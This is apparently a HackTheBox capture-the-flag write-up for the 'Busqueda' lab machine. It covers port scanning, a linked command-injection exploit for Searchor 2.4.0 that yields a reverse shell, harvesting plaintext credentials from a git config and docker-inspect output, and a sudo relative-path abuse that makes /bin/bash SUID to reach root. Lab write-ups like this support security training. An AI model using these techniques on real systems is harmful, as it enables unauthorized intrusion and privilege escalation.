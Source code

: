 ```yaml
---
title: Busqueda
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit, gitea, searcher]
img_path: /Vulnhub-Files/img/
image:
  path: Busqueda/Untitled.jpeg
  alt: Linux Easy level Machine 📂 ...
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Busqueda]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.11.208
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-29 10:05 IST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.63s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
```
{: .nolineno}

## Web Enumeration ⤵️

I loaded this port 80 and I got redirected to `searcher.htb` domain name so I set the `/etc/hosts` file in the attackers machine and got this simple site →

![Untitled](Busqueda/Untitled.png)

I got this version of this CMS site `Searchor 2.4.0`  and I searched the exploit of it and got this exploit of `command Injection` through python.

[GitHub - nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection: Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/tree/main)

Now I used this exploit and got the reverse shell on its system.

![Untitled](Busqueda/Untitled%201.png)

Lets enumerate further →

```bash
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
svc@busqueda:/var/www/app/.git$
```
{: .nolineno}

I got credentials of gitea site and a new domain name too so lets set and add in /etc/hosts.

I got into its account site →

![Untitled](Busqueda/Untitled%202.png)

I also noticed the administrators account but can’t login with that same password .

I then used the cody password in as svc account password to see the `sudo -l` command to access root account.

```bash
svc@busqueda:~$ ls -al
total 36
drwxr-x--- 4 svc  svc  4096 Apr  3  2023 .
drwxr-xr-x 3 root root 4096 Dec 22  2022 ..
lrwxrwxrwx 1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28  2023 .cache
-rw-rw-r-- 1 svc  svc    76 Apr  3  2023 .gitconfig
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3  2023 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20  2023 .searchor-history.json -> /dev/null
-rw-r----- 1 root svc    33 Dec 28 16:47 user.txt
svc@busqueda:~$ cat user.txt
cat user.txt
ffcc2dd47b3d6d1c3a86566951886a72
svc@busqueda:~$
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$
```
{: .nolineno}

I used this command and got 3 options →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py bacd
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/tmp$
```
{: .nolineno}

I used the `docker-inspect` command with format flag →

![Untitled](Busqueda/Untitled%203.png)

so lets use this command →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-ps                  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 12 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 12 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
{: .nolineno}

I got 2 images of docker that can have its own configuration file so lets try it on mysql and I think I will get the credentials of mysql account →

```bash
svc@busqueda:/var/www/app/.git$ sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}

svc@busqueda:/var/www/app/.git$
```
{: .nolineno}

Lets use its password on gitea site for administrators access and when  I tried it I got in →

![Untitled](Busqueda/Untitled%204.png)

when I checked `system-checkup.py` file I noticed that the file path is not specified so I will be creating a file in any directory with name as `full-checkup.sh` file and insert the payload into the I will be payload to make `/bin/bash` as SUIDs permissions :

![Untitled](Busqueda/Untitled%205.png)

Lets use the `sudo python3 /opt/scripts/system-checkup.py full-checkup` command →

```bash
svc@busqueda:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1# ls -al
bash-5.1# cd /root
bash-5.1# ls -al
total 60
drwx------  9 root root 4096 Dec 28 16:47 .
drwxr-xr-x 19 root root 4096 Mar  1  2023 ..
lrwxrwxrwx  1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Mar  1  2023 .cache
drwx------  3 root root 4096 Mar  1  2023 .config
-rw-r-----  1 root root  430 Apr  3  2023 ecosystem.config.js
-rw-r--r--  1 root root  104 Apr  3  2023 .gitconfig
drwxr-xr-x  3 root root 4096 Mar  1  2023 .local
-rw-------  1 root root   50 Feb 20  2023 .my.cnf
lrwxrwxrwx  1 root root    9 Feb 20  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4096 Mar  1  2023 .npm
drwxr-xr-x  5 root root 4096 Dec 28 16:47 .pm2
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Dec 28 16:47 root.txt
drwxr-xr-x  4 root root 4096 Apr  3  2023 scripts
drwx------  3 root root 4096 Mar  1  2023 snap
bash-5.1# whoami
root
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
bash-5.1# cat root.txt
2b58c418e01ad180b2c4f5c363e9bc8e
bash-5.1#
```
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }